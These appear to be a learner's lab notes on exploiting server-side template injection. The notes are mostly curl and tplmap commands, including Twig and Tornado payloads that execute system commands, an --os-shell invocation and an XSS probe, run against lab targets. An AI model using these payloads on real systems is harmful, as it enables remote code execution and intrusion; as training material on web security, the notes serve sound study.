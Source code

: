 ```Shell
pip install -r requirements.txt
```
#### Running tplmap.py
```Shell
./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john
```
`-d` pertains to the data being submitted as a POST request
#### Gaining RCE w/ cURL
```Shell
curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT
```
- `registerUndefinedFilterCallback` registers a function as a filter callback
- `_self.env.getFilter()` executes the function we have just registered
#### Getting a Reverse Shell using tplmap.py
```Shell
./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell
```

*Can also test for XSS*
`name:"{{<svg/onload=confirm()>}}"`
### SSTI Exploitation - Example 2
#### Interacting with the target using cURL (`${7*7}`)
```Shell
curl -X POST -d 'email=${7*7}' http://94.237.51.1:52450/jointheteam
```
Unsuccessful
#### Interacting with the target using cURL (`{{7*7}}`)
```Shell
curl -X POST -d 'email={{7*7}}' http://94.237.51.1:52450/jointheteam
```
Successful
#### Identify underlying template engine
```Shell
curl -X POST -d 'email={{7*'7'}}' http://94.237.51.1:52450/jointheteam
```
#### Twig and Jinja2 payloads didn't work
#### Tornado specific payload
```Shell
curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://94.237.51.1:52450/jointheteam
```
Successful
#### Using tplmap.py to automate the process
```Shell
./tplmap.py -u 'http://94.237.51.1:52450/jointheteam' -d email=blah
```
### SSTI Exploitation - Example 3
![[ssti 3 first image.png]]
User input is submitted via the cmd parameter through a GET request.
#### Submit a mathematical expression in curly brackets in the input field
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={7*7}"
```
#### Try again with `${7*7}`
```Shell
curl -gs 'http://<TARGET IP>:<PORT>/execute?cmd=${7*7}'
```
#### Try `{{7*7}}`
```Shell
curl -gs "http://$tgt/execute?cmd={{7*7}}"
```